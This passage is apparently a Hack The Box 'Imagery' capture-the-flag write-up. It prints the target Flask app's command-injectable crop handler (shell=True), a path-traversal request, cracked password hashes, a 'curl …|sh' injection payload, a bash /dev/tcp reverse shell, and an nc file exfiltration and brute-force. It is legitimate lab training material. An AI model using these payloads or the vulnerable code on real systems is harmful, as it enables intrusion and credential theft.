from utils import _load_data, _save_data, _hash_password, _log_event, _generate_display_id, _sanitize_input, get_file_mimetype, _calculate_file_md5

bp_edit = Blueprint('bp_edit', __name__)

@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    transform_type = request_payload.get('transformType')
    params = request_payload.get('params', {})
    if not image_id or not transform_type:
        return jsonify({'success': False, 'message': 'Image ID and transform type are required.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to transform.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    if original_image.get('actual_mimetype') not in ALLOWED_TRANSFORM_MIME_TYPES:
        return jsonify({'success': False, 'message': f"Transformation not supported for '{original_image.get('actual_mimetype')}' files."}), 400
    original_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if original_ext not in ALLOWED_IMAGE_EXTENSIONS_FOR_TRANSFORM:
        return jsonify({'success': False, 'message': f"Transformation not supported for {original_ext.upper()} files."}), 400
    try:
        unique_output_filename = f"transformed_{uuid.uuid4()}.{original_ext}"
        output_filename_in_db = os.path.join('admin', 'transformed', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        if transform_type == 'crop':
            x = str(params.get('x'))
            y = str(params.get('y'))
            width = str(params.get('width'))
            height = str(params.get('height'))
            command = f"{IMAGEMAGICK_CONVERT_PATH} {original_filepath} -crop {width}x{height}+{x}+{y} {output_filepath}"
            subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
        elif transform_type == 'rotate':
            degrees = str(params.get('degrees'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-rotate', degrees, output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'saturation':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,{float(value)*100},100", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'brightness':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"100,100,{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        elif transform_type == 'contrast':
            value = str(params.get('value'))
            command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, '-modulate', f"{float(value)*100},{float(value)*100},{float(value)*100}", output_filepath]
            subprocess.run(command, capture_output=True, text=True, check=True)
        else:
            return jsonify({'success': False, 'message': 'Unsupported transformation type.'}), 400
        new_image_id = str(uuid.uuid4())
        new_image_entry = {
            'id': new_image_id,
            'filename': output_filename_in_db,
            'url': f'/uploads/{output_filename_in_db}',
            'title': f"Transformed: {original_image['title']}",
            'description': f"Transformed from {original_image['title']} ({transform_type}).",
            'timestamp': datetime.now().isoformat(),
            'uploadedBy': session['username'],
            'uploadedByDisplayId': session['displayId'],
            'group': 'Transformed',
            'type': 'transformed',
            'original_id': original_image['id'],
            'actual_mimetype': get_file_mimetype(output_filepath)
        }
        application_data['images'].append(new_image_entry)
        if not any(coll['name'] == 'Transformed' for coll in application_data.get('image_collections', [])):
            application_data.setdefault('image_collections', []).append({'name': 'Transformed'})
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Image transformed successfully!', 'newImageUrl': new_image_entry['url'], 'newImageId': new_image_id}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({'success': False, 'message': f'Image transformation failed: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during transformation: {str(e)}'}), 500

@bp_edit.route('/convert_image', methods=['POST'])
def convert_image():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    target_format = request_payload.get('targetFormat')
    if not image_id or not target_format:
        return jsonify({'success': False, 'message': 'Image ID and target format are required.'}), 400
    if target_format.lower() not in ALLOWED_MEDIA_EXTENSIONS:
        return jsonify({'success': False, 'message': 'Target format not allowed.'}), 400
    application_data = _load_data()
    original_image = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not original_image:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to convert.'}), 404
    original_filepath = os.path.join(UPLOAD_FOLDER, original_image['filename'])
    if not os.path.exists(original_filepath):
        return jsonify({'success': False, 'message': 'Original image file not found on server.'}), 404
    current_ext = original_image['filename'].rsplit('.', 1)[1].lower()
    if target_format.lower() == current_ext:
        return jsonify({'success': False, 'message': f'Image is already in {target_format.upper()} format.'}), 400
    try:
        unique_output_filename = f"converted_{uuid.uuid4()}.{target_format.lower()}"
        output_filename_in_db = os.path.join('admin', 'converted', unique_output_filename)
        output_filepath = os.path.join(UPLOAD_FOLDER, output_filename_in_db)
        command = [IMAGEMAGICK_CONVERT_PATH, original_filepath, output_filepath]
        subprocess.run(command, capture_output=True, text=True, check=True)
        new_file_md5 = _calculate_file_md5(output_filepath)
        if new_file_md5 is None:
            os.remove(output_filepath)
            return jsonify({'success': False, 'message': 'Failed to calculate MD5 hash for new file.'}), 500
        for img_entry in application_data['images']:
            if img_entry.get('type') == 'converted' and img_entry.get('original_id') == original_image['id']:
                existing_converted_filepath = os.path.join(UPLOAD_FOLDER, img_entry['filename'])
                existing_file_md5 = img_entry.get('md5_hash')
                if existing_file_md5 is None:
                    existing_file_md5 = _calculate_file_md5(existing_converted_filepath)
                if existing_file_md5:
                    img_entry['md5_hash'] = existing_file_md5
                    _save_data(application_data)
                if existing_file_md5 == new_file_md5:
                    os.remove(output_filepath)
                    return jsonify({'success': False, 'message': 'An identical converted image already exists.'}), 409
        new_image_id = str(uuid.uuid4())
        new_image_entry = {
            'id': new_image_id,
            'filename': output_filename_in_db,
            'url': f'/uploads/{output_filename_in_db}',
            'title': f"Converted: {original_image['title']} to {target_format.upper()}",
            'description': f"Converted from {original_image['filename']} to {target_format.upper()}.",
            'timestamp': datetime.now().isoformat(),
            'uploadedBy': session['username'],
            'uploadedByDisplayId': session['displayId'],
            'group': 'Converted',
            'type': 'converted',
            'original_id': original_image['id'],
            'actual_mimetype': get_file_mimetype(output_filepath),
            'md5_hash': new_file_md5
        }
        application_data['images'].append(new_image_entry)
        if not any(coll['name'] == 'Converted' for coll in application_data.get('image_collections', [])):
            application_data.setdefault('image_collections', []).append({'name': 'Converted'})
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Image converted successfully!', 'newImageUrl': new_image_entry['url'], 'newImageId': new_image_id}), 200
    except subprocess.CalledProcessError as e:
        if os.path.exists(output_filepath):
            os.remove(output_filepath)
        return jsonify({'success': False, 'message': f'Image conversion failed: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during conversion: {str(e)}'}), 500

@bp_edit.route('/delete_image_metadata', methods=['POST'])
def delete_image_metadata():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
    if 'username' not in session:
        return jsonify({'success': False, 'message': 'Unauthorized. Please log in.'}), 401
    request_payload = request.get_json()
    image_id = request_payload.get('imageId')
    if not image_id:
        return jsonify({'success': False, 'message': 'Image ID is required.'}), 400
    application_data = _load_data()
    image_entry = next((img for img in application_data['images'] if img['id'] == image_id and img['uploadedBy'] == session['username']), None)
    if not image_entry:
        return jsonify({'success': False, 'message': 'Image not found or unauthorized to modify.'}), 404
    filepath = os.path.join(UPLOAD_FOLDER, image_entry['filename'])
    if not os.path.exists(filepath):
        return jsonify({'success': False, 'message': 'Image file not found on server.'}), 404
    try:
        command = [EXIFTOOL_PATH, '-all=', '-overwrite_original', filepath]
        subprocess.run(command, capture_output=True, text=True, check=True)
        _save_data(application_data)
        return jsonify({'success': True, 'message': 'Metadata deleted successfully from image!'}), 200
    except subprocess.CalledProcessError as e:
        return jsonify({'success': False, 'message': f'Failed to delete metadata: {e.stderr.strip()}'}), 500
    except Exception as e:
        return jsonify({'success': False, 'message': f'An unexpected error occurred during metadata deletion: {str(e)}'}), 500
```

It looked like that the `/apply_visual_transform` endpoint to `modify` and `transform` pictures used `Exiftool` and the option `shell=True` which meant that `commands` are got executed on the level of the `Operating System`. This could lead to `Command Injection`.

```shell
<--- CUT FOR BREVITY --->
@bp_edit.route('/apply_visual_transform', methods=['POST'])
def apply_visual_transform():
<--- CUT FOR BREVITY --->
```

```shell
<--- CUT FOR BREVITY --->
subprocess.run(command, capture_output=True, text=True, shell=True, check=True)
<--- CUT FOR BREVITY --->
```

```shell
<--- CUT FOR BREVITY --->
command = [EXIFTOOL_PATH, '-all=', '-overwrite_original', filepath]
<--- CUT FOR BREVITY --->
```

But in order to use this function we needed to be `testuser`.

```shell
<--- CUT FOR BREVITY --->
def apply_visual_transform():
    if not session.get('is_testuser_account'):
        return jsonify({'success': False, 'message': 'Feature is still in development.'}), 403
<--- CUT FOR BREVITY --->
```

## Privilege Escalation to testuser

Next we looked into the `db.json` and found what looked like an `MD5 Hash` for the user `testuser`. 

```shell
GET /admin/get_system_log?log_identifier=../db.json HTTP/1.1
Host: 10.129.110.48:8000
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJw9jbEOgzAMRP_Fc4UEZcpER74iMolLLSUGxc6AEP-Ooqod793T3QmRdU94zBEcYL8M4RlHeADrK2YWcFYqteg571R0EzSW1RupVaUC7o1Jv8aPeQxhq2L_rkHBTO2irU6ccaVydB9b4LoBKrMv2w.aNg_Cw.MjuBSN2rc9lbyRM2C-l6cY8R8jQ
If-None-Match: "1759004408.161333-1961-2828407261"
If-Modified-Since: Sat, 27 Sep 2025 20:20:08 GMT
Connection: keep-alive


```

```shell
HTTP/1.1 200 OK
Server: Werkzeug/3.1.3 Python/3.12.7
Date: Sat, 27 Sep 2025 20:25:27 GMT
Content-Disposition: attachment; filename=db.json
Content-Type: text/plain; charset=utf-8
Content-Length: 2627
Last-Modified: Sat, 27 Sep 2025 20:25:11 GMT
Cache-Control: no-cache
ETag: "1759004711.083351-2627-4065660163"
Date: Sat, 27 Sep 2025 20:25:27 GMT
Vary: Cookie
Connection: close

{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "isAdmin": true,
            "displayId": "a1b2c3d4",
            "login_attempts": 0,
            "isTestuser": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "isAdmin": false,
            "displayId": "e5f6g7h8",
            "login_attempts": 0,
            "isTestuser": true,
            "failed_login_attempts": 0,
            "locked_until": null
        }
    ],
    "images": [
        {
            "id": "a5879762-f53f-4a75-bfa8-4334b3782b4f",
            "filename": "38403410-8123-4ab8-970d-c634121c01ac_cat.png",
            "url": "/uploads/38403410-8123-4ab8-970d-c634121c01ac_cat.png",
            "title": "admin",
            "description": "admin",
            "timestamp": "2025-09-27T20:21:16.730577",
            "uploadedBy": "admin@imagery.htb",
            "uploadedByDisplayId": "a1b2c3d4",
            "group": "My Images",
            "type": "original",
            "actual_mimetype": "image/png"
        },
        {
            "id": "13e95374-6eaa-46a6-819c-9c56cacaaa3c",
            "filename": "c335a072-abd1-4eae-b05f-d383f677d85b_cat.png",
            "url": "/uploads/c335a072-abd1-4eae-b05f-d383f677d85b_cat.png",
            "title": "admin",
            "description": "admin",
            "timestamp": "2025-09-27T20:21:47.120803",
            "uploadedBy": "admin@imagery.htb",
            "uploadedByDisplayId": "a1b2c3d4",
            "group": "Transformed",
            "type": "original",
            "actual_mimetype": "image/png"
        },
        {
            "id": "7a39bbb2-da51-4f5e-9d97-7a5ad1661f45",
            "filename": "bd9b28da-57ac-4604-b07d-1f333b64ca69_cat.png",
            "url": "/uploads/bd9b28da-57ac-4604-b07d-1f333b64ca69_cat.png",
            "title": "cat",
            "description": "",
            "timestamp": "2025-09-27T20:22:41.570656",
            "uploadedBy": "admin@imagery.htb",
            "uploadedByDisplayId": "a1b2c3d4",
            "group": "Converted",
            "type": "original",
            "actual_mimetype": "image/png"
        }
    ],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ],
    "bug_reports": []
}
```

| Username | Hash                             |
| -------- | -------------------------------- |
| testuser | 2c65c8d7bfbca32a3ed42596192384f6 |

### Cracking the Hash (testuser)

The step for `Privilege Escalation` was pretty easy since the `Hash` was already `cracked` and we could use `crackstation.net` to retrieve the `Cleartext Password`.

- [https://crackstation.net/](https://crackstation.net/)

| Password  |
| --------- |
| iambatman |

## Initial Access

### Exiftool Remote Code Execution (RCE)

We logged out of the application and logged in as `testuser` to now have the capability to `edit` the `pictures` we uploaded.

| Email                | Password  |
| -------------------- | --------- |
| testuser@imagery.htb | iambatman |







In order to verify our assumption of a `Command Injection` vulnerability we prepared our `payload` and `intercepted` our `request` in order to `modify` it.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Imagery/serve]
└─$ cat x 
#!/bin/bash

bash -c '/bin/bash -i >& /dev/tcp/10.10.16.54/9001 0>&1'
```

We added our `Command Injection` at the `x` parameter and forwarded it.

```shell
POST /apply_visual_transform HTTP/1.1
Host: 10.129.110.48:8000
Content-Length: 195
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: http://10.129.110.48:8000
Referer: http://10.129.110.48:8000/
Accept-Encoding: gzip, deflate, br
Cookie: session=.eJxNjTEOgzAMRe_iuWKjRZno2FNELjGJJWJQ7AwIcfeSAanjf_9J74DAui24fwI4oH5-xlca4AGs75BZwM24KLXtOW9UdBU0luiN1KpS-Tdu5nGa1ioGzkq9rsYEM12JWxk5Y6Syd8m-cP4Ay4kxcQ.aNhI4Q.QNW_1JokSzIyXD_yRmaRGgz5HHo
Connection: keep-alive

{"imageId":"4e9732f1-fb22-4e9b-81c9-29dedeba9e19","transformType": "crop",
    "params": {
        "x": "0; curl 10.10.16.54/x|sh #",
        "y": "0",
        "width": "100",
        "height": "100"
    }
}
```

Immediately we got a `hit` on our `web server` as well as a `callback` and a `reverse shell`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Imagery/serve]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.110.48 - - [27/Sep/2025 22:33:44] "GET /x HTTP/1.1" 200 -
```

```shell
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 9001
listening on [any] 9001 ...
connect to [10.10.16.54] from (UNKNOWN) [10.129.110.48] 41714
bash: cannot set terminal process group (1375): Inappropriate ioctl for device
bash: no job control in this shell
web@Imagery:~/web$ 
```

We stabilized our shell and moved on.

```shell
web@Imagery:~/web$ python3 -c 'import pty;pty.spawn("/bin/bash")'
python3 -c 'import pty;pty.spawn("/bin/bash")'
web@Imagery:~/web$ ^Z
zsh: suspended  nc -lnvp 9001
                                                                                                                                                                                                                                                                                                                                                                                                                                          
┌──(kali㉿kali)-[~]
└─$ stty raw -echo;fg
[1]  + continued  nc -lnvp 9001

web@Imagery:~/web$ 
web@Imagery:~/web$ export XTERM=xterm
web@Imagery:~/web$
```

## Enumeration (web)

Since we already knew about our current user `web` we started looking around on the box and found an `encrypted` file called `web_20250806_120723.zip.aes`.

```shell
web@Imagery:/var/backup$ ls -la
total 22524
drwxr-xr-x  2 root root     4096 Sep 22 18:56 .
drwxr-xr-x 14 root root     4096 Sep 22 18:56 ..
-rw-rw-r--  1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```

## Privilege Escalation to mark

We downloaded the file and searched for a `Decrypter`. Luckily we found a recently published `dpyAesCrypt` tool on `GitHub`.

- [https://github.com/Nabeelcn25/dpyAesCrypt.py](https://github.com/Nabeelcn25/dpyAesCrypt.py)

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Imagery/files]
└─$ nc -lnvp 4444 > web_20250806_120723.zip.aes 
listening on [any] 4444 ...
```

```shell
web@Imagery:/var/backup$ nc 10.10.16.54 4444 < web_20250806_120723.zip.aes
```

```shell
connect to [10.10.16.54] from (UNKNOWN) [10.129.110.48] 42052
```

We cloned the tool and after we finished the setup to make it running we were able to retrieve the `password` of as well as `decrypt` the `.zip-File`.

```shell
┌──(kali㉿kali)-[~/tmp]
└─$ git clone https://github.com/Nabeelcn25/dpyAesCrypt.py.git
Cloning into 'dpyAesCrypt.py'...
remote: Enumerating objects: 22, done.
remote: Counting objects: 100% (22/22), done.
remote: Compressing objects: 100% (22/22), done.
remote: Total 22 (delta 6), reused 0 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (22/22), 12.70 KiB | 6.35 MiB/s, done.
Resolving deltas: 100% (6/6), done.
```

```shell
┌──(kali㉿kali)-[~/tmp]
└─$ cd dpyAesCrypt.py
```

```shell
┌──(kali㉿kali)-[~/tmp/dpyAesCrypt.py]
└─$ python3 -m virtualenv venv
created virtual environment CPython3.13.7.final.0-64 in 449ms
  creator CPython3Posix(dest=/home/kali/tmp/dpyAesCrypt.py/venv, clear=False, no_vcs_ignore=False, global=False)
  seeder FromAppData(download=False, pip=bundle, via=copy, app_data_dir=/home/kali/.local/share/virtualenv)
    added seed packages: pip==25.2
  activators BashActivator,CShellActivator,FishActivator,NushellActivator,PowerShellActivator,PythonActivator
```

```shell
┌──(kali㉿kali)-[~/tmp/dpyAesCrypt.py]
└─$ source venv/bin/activate
```

```shell
┌──(venv)─(kali㉿kali)-[~/tmp/dpyAesCrypt.py]
└─$ pip3 install pyAesCrypt
Collecting pyAesCrypt
  Downloading pyAesCrypt-6.1.1-py3-none-any.whl.metadata (5.2 kB)
Collecting cryptography (from pyAesCrypt)
  Using cached cryptography-46.0.1-cp311-abi3-manylinux_2_34_x86_64.whl.metadata (5.7 kB)
Collecting cffi>=2.0.0 (from cryptography->pyAesCrypt)
  Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl.metadata (2.6 kB)
Collecting pycparser (from cffi>=2.0.0->cryptography->pyAesCrypt)
  Using cached pycparser-2.23-py3-none-any.whl.metadata (993 bytes)
Downloading pyAesCrypt-6.1.1-py3-none-any.whl (16 kB)
Using cached cryptography-46.0.1-cp311-abi3-manylinux_2_34_x86_64.whl (4.6 MB)
Using cached cffi-2.0.0-cp313-cp313-manylinux2014_x86_64.manylinux_2_17_x86_64.whl (219 kB)
Using cached pycparser-2.23-py3-none-any.whl (118 kB)
Installing collected packages: pycparser, cffi, cryptography, pyAesCrypt
Successfully installed cffi-2.0.0 cryptography-46.0.1 pyAesCrypt-6.1.1 pycparser-2.23
```

```shell
┌──(venv)─(kali㉿kali)-[~/tmp/dpyAesCrypt.py]
└─$ pip3 install termcolor                                                            
Collecting termcolor
  Downloading termcolor-3.1.0-py3-none-any.whl.metadata (6.4 kB)
Downloading termcolor-3.1.0-py3-none-any.whl (7.7 kB)
Installing collected packages: termcolor
Successfully installed termcolor-3.1.0
```

```shell
┌──(venv)─(kali㉿kali)-[~/tmp/dpyAesCrypt.py]
└─$ python3 dpyAesCrypt.py web_20250806_120723.zip.aes /usr/share/wordlists/rockyou.txt

[🔐] dpyAesCrypt.py – pyAesCrypt Brute Forcer                                    
[🔎] Starting brute-force with 10 threads...
[🔄] Progress: ░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 0.00% | ETA: 00:00:00 | Tried 0/14344392/home/kali/tmp/dpyAesCrypt.py/dpyAesCrypt.py:42: DeprecationWarning: inputLength parameter is no longer used, and might be removed in a future version
  pyAesCrypt.decryptStream(fIn, fOut, password.strip(), buffer_size, os.path.getsize(encrypted_file))
[🔄] Progress: ░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░ 0.01% | ETA: 13:50:31 | Tried 971/14344392
[✅] Password found: bestfriends                                                 
🔓 Decrypt the file now? (y/n): y
/home/kali/tmp/dpyAesCrypt.py/dpyAesCrypt.py:142: DeprecationWarning: inputLength parameter is no longer used, and might be removed in a future version
  pyAesCrypt.decryptStream(fIn, fOut, cracked_pw, args.buffer, os.path.getsize(args.file))
[📁] File decrypted successfully as: web_20250806_120723.zip
```

| Password    |
| ----------- |
| bestfriends |

### Investigating Extracted Files

We searched for `diffs` in the `backup` and especially inside the `db.json` because we had the idea that a user was eventually removed later.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Imagery/files]
└─$ unzip web_20250806_120723.zip -d extracted
```

And indeed we found the `MD5 Hash` of the `password` of `mark`.

```shell
┌──(kali㉿kali)-[/media/…/Imagery/files/extracted/web]
└─$ cat db.json 
{
    "users": [
        {
            "username": "admin@imagery.htb",
            "password": "5d9c1d507a3f76af1e5c97a3ad1eaa31",
            "displayId": "f8p10uw0",
            "isTestuser": false,
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "testuser@imagery.htb",
            "password": "2c65c8d7bfbca32a3ed42596192384f6",
            "displayId": "8utz23o5",
            "isTestuser": true,
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null
        },
        {
            "username": "mark@imagery.htb",
            "password": "01c3d2e5bdaf6134cec0a367cf53e535",
            "displayId": "868facaf",
            "isAdmin": false,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        },
        {
            "username": "web@imagery.htb",
            "password": "84e3c804cf1fa14306f26f9f3da177e0",
            "displayId": "7be291d4",
            "isAdmin": true,
            "failed_login_attempts": 0,
            "locked_until": null,
            "isTestuser": false
        }
    ],
    "images": [],
    "bug_reports": [],
    "image_collections": [
        {
            "name": "My Images"
        },
        {
            "name": "Unsorted"
        },
        {
            "name": "Converted"
        },
        {
            "name": "Transformed"
        }
    ]
}
```

### Cracking the Hash (mark)

All what was to do was to simply repeat the steps we did earlier and hand over the `Hash` to `crackstation.net`

- [https://crackstation.net/](https://crackstation.net/)

| Password   |
| ---------- |
| supersmash |

With the `password` of `mark` we simply could switch the session to him. This step was actually necessary because we tried to login via `SSH` but the configuration enforced `Public Key Authentication`.

```shell
web@Imagery:/var/backup$ su mark
Password: 
mark@Imagery:/var/backup$
```

## user.txt

Now as `mark` we finally could access the `user.txt`.

```shell
mark@Imagery:~$ cat user.txt
83fe702a1c9b0063f3723e9650409113
```

## Enumeration (mark)

Some basic `Enumeration` on `mark` showed that the user was allowed to execute a `Custom Application` called `Charcol` to perform `Backup Operations` on the box using `sudo` and therefore on behalf of `root`.

```shell
mark@Imagery:~$ id
uid=1002(mark) gid=1002(mark) groups=1002(mark)
```

```shell
mark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

First we checked the `capabilities` of the `binary` and tried to get as much information about it as possible. Unfortunately we were not allowed to grab the binary and download it for further investigations nor were `file` or `strings` available on the box.

```shell
mark@Imagery:~$ sudo /usr/local/bin/charcol

  ░██████  ░██                                                  ░██ 
 ░██   ░░██ ░██                                                  ░██ 
░██        ░████████   ░██████   ░██░████  ░███████   ░███████  ░██ 
░██        ░██    ░██       ░██  ░███     ░██    ░██ ░██    ░██ ░██ 
░██        ░██    ░██  ░███████  ░██      ░██        ░██    ░██ ░██ 
 ░██   ░██ ░██    ░██ ░██   ░██  ░██      ░██    ░██ ░██    ░██ ░██ 
  ░██████  ░██    ░██  ░█████░██ ░██       ░███████   ░███████  ░██ 
                                                                    
                                                                    
                                                                    
Charcol The Backup Suit - Development edition 1.0.0


Charcol is already set up.
To enter the interactive shell, use: charcol shell
To see available commands and flags, use: charcol help
```

```shell
mark@Imagery:~$ sudo /usr/local/bin/charcol shell
Enter your Charcol master passphrase (used to decrypt stored app password): 

[2025-09-27 20:49:56] [ERROR] Incorrect master passphrase. 2 retries left. (Error Code: CPD-002)
Enter your Charcol master passphrase (used to decrypt stored app password):
```

```shell
[2025-09-27 20:49:56] [ERROR] Incorrect master passphrase. 2 retries left. (Error Code: CPD-002)
Enter your Charcol master passphrase (used to decrypt stored app password): 
[2025-09-27 20:50:13] [ERROR] An unhandled error occurred (Error ID: 245d1283-7a04-498c-8b52-68589e6efeff): 
[2025-09-27 20:50:13] [ERROR] Please submit the log file and the following error details to error@charcol.com if the issue persists:
[2025-09-27 20:50:13] [ERROR] Traceback (most recent call last):
[2025-09-27 20:50:13] [ERROR] File "/usr/local/lib/charcol//charcol.py", line 250, in <module>
    main()
[2025-09-27 20:50:13] [ERROR] File "/usr/local/lib/charcol//charcol.py", line 69, in main
    loaded_app_password, loaded_app_password_status = _load_app_password_status(
                                                      ^^^^^^^^^^^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] File "/usr/local/lib/charcol/charcol_config.py", line 49, in _load_app_password_status
    master_passphrase = _get_master_passphrase_securely(quiet_enabled=False)
                        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] File "/usr/local/lib/charcol/charcol_config.py", line 16, in _get_master_passphrase_securely
    master_passphrase = get_password_securely("Enter your Charcol master passphrase (used to decrypt stored app password): ", quiet_enabled)
                        ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] File "/usr/local/lib/charcol/charcol_utils.py", line 126, in get_password_securely
    password = getpass.getpass("")
               ^^^^^^^^^^^^^^^^^^^
[2025-09-27 20:50:13] [ERROR] File "/usr/lib/python3.12/getpass.py", line 77, in unix_getpass
    passwd = _raw_input(prompt, stream, input=input)
